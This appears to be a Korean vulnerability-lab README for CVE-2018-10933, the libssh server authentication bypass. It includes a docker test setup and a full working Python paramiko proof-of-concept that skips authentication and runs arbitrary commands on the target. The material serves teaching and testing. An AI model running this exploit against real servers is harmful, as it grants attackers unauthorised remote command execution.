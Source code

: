 # CVE-2018-10933

**Contributor**
- 김기현(@hellogihyeon)
<br/>

### 취약점에 대한 요약

- libssh는 클라이언트 및 서버 측에 SSHv2 프로토콜을 구현하는 다중 플랫폼 C 라이브러리임.
- libssh의 서버 측 상태 시스템에 논리 취약점이 발견됨.
- 공격자는 인증이 성공하기 전에 'MSG_USERAUTH_SUCCESS' 메시지를 보낼 수 있음.
- 이를 통해 인증을 무시하고 대상 SSH 서버에 액세스할 수 있음.

<br/>

참고자료 및 문헌:

- https://www.libssh.org/security/advisories/CVE-2018-10933.txt
- https://www.seebug.org/vuldb/ssvid-97614

<br/>

## 환경설정 및 실행

다음의 명령어를 통해 테스트 환경을 구성함.

```
docker compose up -d
```

환경이 실행되고 나면, `your-ip:2222` 포트와 (계정 비밀번호: `myuser:mypassword`)룰 통해 접속할 수 있음. 
정상적인 접속은 다음과 같음.

![](1.png)

<br/>

## 공격

POC는 다음 사이트에 자세하게 나와있음. https://www.seebug.org/vuldb/ssvid-97614,
<br/>다음의 코드를 통해 이 취약점이 실제 존재함을 증명할 수 있음.

```python
#!/usr/bin/env python3

import sys
import paramiko
import socket
import logging

# 로깅 설정, 표준 출력으로 로그 출력.
logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)

bufsize = 2048

# SSH 명령 실행 함수 정의
def execute(hostname, port, command):

    # TCP 소켓 생성
    sock = socket.socket()

    try:
        # 원격 호스트와 포트로 소켓 연결 시도
        sock.connect((hostname, int(port)))

        # Paramiko 라이브러리를 사용하여 SSH 연결을 설정.
        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        # SSH 사용자 인증 요청 메시지를 보냄. --> 취약점 익스플로잇
        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)
        
         # SSH 세션을 열고 지정된 명령을 실행.
        client = transport.open_session(timeout=10)
        client.exec_command(command)
       

        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        # 문자열 디코딩
        return (output + error).decode()
    except paramiko.SSHException as e:

        # SSH 연결 예외 처리
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")

        # SSH 연결 중에 발생하는 예외를 처리하고 로그 기록.
    except socket.error:
        # 소켓 연결 예외 처리
        logging.debug("Unable to connect.")

    return None

if __name__ == '__main__':

    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))


```

위 코드의 실행으로, 공격 대상 서버에서 임의의 명령어를 실행할 수 있게 됨.

<br/>

## 결과
![](2.png)
